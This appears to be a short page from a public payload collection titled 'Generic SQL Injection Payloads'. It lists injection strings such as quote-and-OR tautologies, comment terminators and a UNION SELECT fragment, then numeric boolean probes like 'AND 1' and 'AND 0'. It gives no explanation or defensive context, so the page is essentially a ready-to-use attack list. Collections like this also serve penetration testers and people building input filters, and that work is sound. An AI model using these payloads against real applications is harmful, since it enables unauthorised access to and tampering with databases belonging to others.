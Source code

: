 ## Generic SQL Injection Payloads

```cadence
' or "
-- or # 
' OR '1
' OR 1 -- -
" OR "" = "
" OR 1 = 1 -- -
' OR '' = '
 OR 1=1
 ' OR 'x'='x
 ' AND id IS NULL; --
 '''''''''''''UNION SELECT '2
```

\# Numeric

```cadence
AND 1
AND 0
AND true
AND false
```

